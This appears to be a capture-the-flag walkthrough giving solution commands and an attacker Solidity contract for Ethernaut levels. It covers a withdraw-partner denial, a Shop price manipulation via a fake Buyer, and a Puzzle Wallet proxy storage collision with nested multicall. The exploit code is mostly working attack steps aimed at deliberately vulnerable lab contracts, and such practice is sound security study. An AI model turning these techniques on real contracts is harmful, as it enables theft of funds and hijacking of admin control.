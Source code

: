 console:
```
await contract.setFirstTime("copied_address")
await contract.setFirstTime("12345")
```
===> submit level



console
```
await contract.setWithdrawPartner("<copied_address>");
await contract.withdraw();
```

### Shop
`Shop.sol` => copy from this level
<br>`ShopAttack.sol`
```
pragma solidity ^0.8.0;

import './Shop.sol';

contract ShopAttack is Buyer{
  Shop public s;

  constructor(Shop _s) public {
      s = _s;
  }

  function buy() public {
    s.buy();
  }

  function price() public view override returns(uint) {
      return s.isSold() ? 0 : 100;
  }
}
```

Deploy with params:<br>
- address: `contract.address` get on console window

Click `buy` button

===> submit level

### Puzzle Wallet
console
```
fS = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}
data = web3.eth.abi.encodeFunctionCall(fS, [player])
await web3.eth.sendTransaction({from: player, to: instance, data});
await contract.addToWhitelist(player)
depositData = await contract.methods["deposit()"].request().then(v => v.data)
ml = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)

await contract.multicall([ml, ml], {value: toWei('0.001')})
```